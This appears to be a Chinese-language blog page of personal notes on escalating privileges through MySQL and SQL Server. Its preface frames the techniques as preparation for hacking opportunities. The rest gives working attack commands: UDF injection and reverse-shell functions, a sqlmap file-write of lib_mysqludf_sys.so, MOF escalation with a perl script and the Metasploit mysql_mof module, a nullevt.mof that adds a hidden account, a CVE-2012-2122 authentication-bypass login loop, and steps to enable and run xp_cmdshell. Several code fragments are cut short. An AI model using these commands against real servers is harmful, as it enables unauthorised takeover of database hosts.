





mysql提权
前言
事出有因，发现mysql的提权还不是很熟。需要研究一下。
另外，如果真的想成为一名大师，对于一个东西一定要熟。你把它研究透了，从内到外都滚瓜烂熟了，才有可能在遇到需要它的时候成功利用。
你永远不知道下一秒会发生什么。很有可能下一秒机会就出现。而那些真正厉害的黑客一定是早早就把可能用到的东西研究透了，已经烂熟于心。这样才能在那些稍纵即逝的机会面前抓住他。
不只是第一步，思路一定要清晰。在踏出第一步之前就已经对于每一步可能发生的情况都非常清楚，知道要向什么方向走。
UDF
创建文件夹
因为默认是没有这个文件夹的：C:/Users/username/Documents/phpstudy/MySQL/lib/plugin
select @@basedir; |
udf注入(Linux)
linux_udf_64.so这个不知道函数名是啥，从下面的常用命令看应该是叫sys_eval。
udf马
udf反弹shell
mysqlShellExp.txt这个udf.dll文件有点大，可能有后门。。。
运行创建函数的时候会提示没有这个函数，但实际上是成功的。


mysql自动化上传
python sqlmap.py -u ‘xxxx’ –file-write=/lib_mysqludf_sys.so –file-dest=/usr/lib/mysql/plugin/
mof提权
要winServer2003以下才能用。。
用法：
perl mysql_win_remote.pl 10.211.55.3 root root 10.211.55.4 9999 |
perl需要安装 DBD::mysql DBD 模块。mac10.15.5 安装失败。。
MSF
win7的用msf模块打了，不成功。
use exploit/windows/mysql/mysql_mof |
据说windows2003可以。
手动
nullevt.mof文件源码
#pragma namespace("\\\\.\\root\\subscription") |
用法：
系统每五秒创建一个账户test$，里面命令可以自定义
使用sql语句将文件导入到c:/windows/system32/wbem/mof/下
select load_file("C:/phpstudy/WWW/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof" |
利用的是windows系统的一个机制，以管理员权限每5分钟执行一次。
万一成功了想要删掉需要：
net stop winmgmt |
hackmysql综合利用工具
https://github.com/T3st0r-Git/HackMySQL
集成了全自动udf一键执行命令(里面有几个自带的dll，不知道有没有后门)

写启动项
LPK.dll劫持系统目录提权
这个试了也提示成功但实际上是没有这个账户的。。


允许远程连接
更改 “mysql” 数据库里的 user 表里的 host 项，将 localhost 改为 %
CVE-2012-2122 Mysql身份认证漏洞
不断尝试登陆，平均256次就能成功一次。无需密码。
#!/usr/bin/python |
for i in `seq 1 1000`; do mysql -u root -p -h 192.168.0.16 --password=bad 2>/dev/null; done |
SA提权辅助
http://bugs.hacking8.com/tiquan/?m=sql-sa
xp_cmdshell命令执行
开启xp_cmdshell
EXECsp_configure'showadvancedoptions',1;RECONFIGURE;EXECsp_configu re'xp_cmdshell',1;RECONFIGURE; |
当提示”不支持对系统目录进行即席更新”
EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH over ride;EXEC sp_configure |
exec master..xp_cmdshell 'whoami' |
判断xp_cmdshell是否存在
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = 'X' AND n ame = 'xp_cmdshell' |
关闭xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_c onfigure 'xp_cmdshell', 0;RECONFIGURE; |